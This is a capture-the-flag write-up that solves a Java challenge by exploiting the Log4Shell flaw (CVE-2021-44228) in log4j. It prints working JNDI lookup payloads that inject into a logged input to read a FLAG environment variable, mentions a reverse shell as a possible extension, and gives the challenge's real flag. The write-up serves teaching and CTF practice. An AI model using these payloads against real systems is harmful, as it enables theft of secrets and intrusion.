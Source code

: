 #### Log4Flag - Hard

*There is this program that is supposed to give me the flag. However, even if I beg for it and say the magic word, it won't return it. Try to lookup the flag.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* <br>
*nc summit.informatik.sexy 8082*

<br>

[Log4Flag.zip](../Public/Log4Flag.zip)

<br>

This is the response if we connect to the server:
```
$ nc summit.informatik.sexy port
Do you want the flag?
yes
Try Harder! <3

Do you want the flag?
no
What are you even doing here? :P

Do you want the flag?
test 
Try a different input!

Do you want the flag?
...
```

Running the code locally with `run.sh` yields the same results. The response won't help us much for now. The `Log4Flag.zip` contains Java bytecode in the file `Log4Flag.class`. We can use `bytecode-viewer` or a website like [javadecompilers](http://www.javadecompilers.com/) to get the Java source code.

```java
import java.util.Scanner;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Log4Flag {
    public static void main(String[] array) {
        try {
            final Logger logger = LogManager.getLogger("Log4Flag");

            while (true) {
                System.out.println("Do you want the flag?");
                String input = new Scanner(System.in).next();

                if (input.toLowerCase().contains("yes") && input.toLowerCase().contains("please")) {
                    System.out.println("I won't give you the flag this easily!");
                    logger.error("Unauthorized access attempt with input: {}", (Object) input);
                } else if (input.toLowerCase().contains("yes")) {
                    System.out.println("Try Harder! <3");
                } else if (input.toLowerCase().contains("please")) {
                    System.out.println("Getting closer!");
                } else if (input.toLowerCase().contains("no")) {
                    System.out.println("What are you even doing here? :P");
                } else {
                    System.out.println("Try a different input!");
                }
                System.out.println("");
            }
        } catch (Exception x) {
            System.err.println(x);
        }
    }
}
```
We can see that the code is using log4j. This should ring a bell about the zero day exploit in log4j that was published about a year ago [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228). Knowing this and looking at the challenge name, it is kind of obvious what we should do now. We need to use this vulnerability to find the flag.

We can also see that the logger is used if our input contains the words "yes" and "please". 
```bash
$ ./run.sh
Do you want the flag?
yesplease
I won't give you the flag this easily!
22:01:16.185 [main] ERROR Log4Flag - Unauthorized access attempt with input: yesplease
```

We can see that we now get a response from the logger as well. However, we haven't gotten the flag yet. We need to dig deeper.
We will start with a PoC to show that the vulnerability is present in the code:

```
$ ./run.sh 
Do you want the flag?
${jndi:ldap://127.0.0.1/test}yesplease
I won't give you the flag this easily!
2022-11-25 21:58:39,272 main WARN Error looking up JNDI resource [ldap://127.0.0.1/test]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
        at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:252)
        at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
        ...

21:58:39.179 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/test}yesplease
```

The error messages proof that the vulnerability exists. The server tries to conntact a LDAP server and the connection gets refused. If we have a LDAP server, we could try to send request to it in order to create a reverse shell. This is not neccessary in this example. If we look at the `run.sh` script, we can see that the flag is saved in an environment variable called `FLAG`.
We can perform an environment lookup with log4j and retrieve the flag from the environment variables. 

```
$ ./run.sh     
Do you want the flag?
${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
I won't give you the flag this easily!
2022-11-25 22:10:38,008 main WARN Error looking up JNDI resource [ldap://127.0.0.1/nland{dummy-flag}]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
...

22:10:37.920 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
```

We managed to exploit the code locally and to retrieve the dummy flag. It is contained in the exception log. Now we just have to execute the same payload on the server and we will be rewarded with the real flag. <br>
The flag is `nland{3nv1r0nm3n7_l00kup_&_m461c_w0rd_4_fl4g}`.
